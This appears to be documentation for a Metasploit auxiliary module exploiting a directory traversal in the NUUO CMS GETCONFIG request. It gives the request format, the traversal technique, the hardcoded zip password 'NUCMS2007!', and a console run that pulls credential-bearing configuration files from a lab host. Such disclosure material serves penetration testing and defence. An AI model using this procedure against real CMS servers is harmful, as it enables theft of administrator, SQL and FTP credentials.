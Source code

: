 ## Description

Nuuo CMS Authenticated Arbitrary File Download

The GETCONFIG verb is used by a CMS client to obtain configuration files and other resources from the CMS server. An example request is below:

```
GETCONFIG NUCM/1.0
FileName: <filename>
FileType: <number>
User-Session-No: <session-number>
```

The FileType determines the directory where the file will be downloaded from. "FileType: 0" will download from the base installation directory (CMS_DIR), while "FileType: 1" will download from "<CMS_DIR>\Images\Map\". There are other defined FileType integers, but these have not been investigated in detail.

The vulnerability is in the "FileName" parameter, which accepts directory traversal (..\\..\\) characters. Therefore, this function can be abused to obtain any files off the file system, including:

- CMServer.cfg, a file zipped with the password "NUCMS2007!" that contains the usernames and passwords of all the system users (enabling a less privileged user to obtain the administrator's password)
- ServerConfig.cfg, another file zipped with the password "NUCMS2007!" that contains the SQL Server "sa" password as well the FTP server username and password
- Any other sensitive files in the drive where CMS Server is installed.

This module works in the following way:

- if a SESSION number is present, uses that to login
- if not, tries to authenticate with USERNAME and PASSWORD

Due to the lack of ZIP encryption support in Metasploit, the module prints a warning indicating that the archive cannot be unzipped in Msf.

## Vulnerable Application

[NUUO Central Management Server (CMS): all versions up to and including 3.5.0](http://d1.nuuo.com/NUUO/CMS/)

The following versions were tested:

 - 1.5.2 OK
 - 2.1.0 OK
 - 2.3.2 OK
 - 2.4.0 OK
 - 2.6.0 OK
 - 2.9.0 OK
 - 2.10.0 OK
 - 3.1 OK
 - 3.3 OK
 - 3.5 OK

## Scenarios

### Tested on Windows 10 Pro x64 running NCS Server 2.4.0

```
msf5 auxiliary(gather/nuuo_cms_file_download) > set rhosts 172.22.222.200
rhosts => 172.22.222.200
msf5 auxiliary(gather/nuuo_cms_file_download) > exploit

[+] 172.22.222.200:5180 - Downloaded file to /home/msfdev/.msf4/loot/20190219064923_default_172.22.222.200_CMServer.cfg_227185.cfg
[+] 172.22.222.200:5180 - Downloaded file to /home/msfdev/.msf4/loot/20190219064923_default_172.22.222.200_ServerConfig.cfg_050084.cfg
[*] 172.22.222.200:5180 - The user and server configuration files were stored in the loot database.
[*] 172.22.222.200:5180 - The files are ZIP encrypted, and due to the lack of the archive/zip gem,
[*] 172.22.222.200:5180 - they cannot be decrypted in Metasploit.
[*] 172.22.222.200:5180 - You will need to open them up with zip or a similar utility, and use the
[*] 172.22.222.200:5180 - password NUCMS2007! to unzip them.
[*] 172.22.222.200:5180 - Annoy the Metasploit developers until this gets fixed!
[*] Auxiliary module execution completed
msf5 auxiliary(gather/nuuo_cms_file_download) >
```

## References

- https://ics-cert.us-cert.gov/advisories/ICSA-18-284-02

- https://raw.githubusercontent.com/pedrib/PoC/master/advisories/nuuo-cms-ownage.txt
